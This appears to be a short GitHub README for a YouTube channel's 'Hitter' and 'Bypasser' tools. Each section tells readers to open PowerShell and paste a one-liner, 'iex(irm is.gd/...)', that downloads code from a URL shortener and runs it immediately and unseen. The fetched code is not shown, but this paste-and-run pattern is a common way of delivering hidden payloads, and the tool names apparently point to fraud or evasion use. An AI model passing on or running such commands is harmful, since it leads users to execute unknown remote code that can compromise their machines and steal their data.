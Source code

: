 # TechTubeInsider
TechTube Insider YouTube Channel's Files

# Part 1 - Hitter

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*`iex(irm is.gd/docomojx)`
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

# Part 2 - Bypasser

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```
iex(irm is.gd/bypassjx)
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

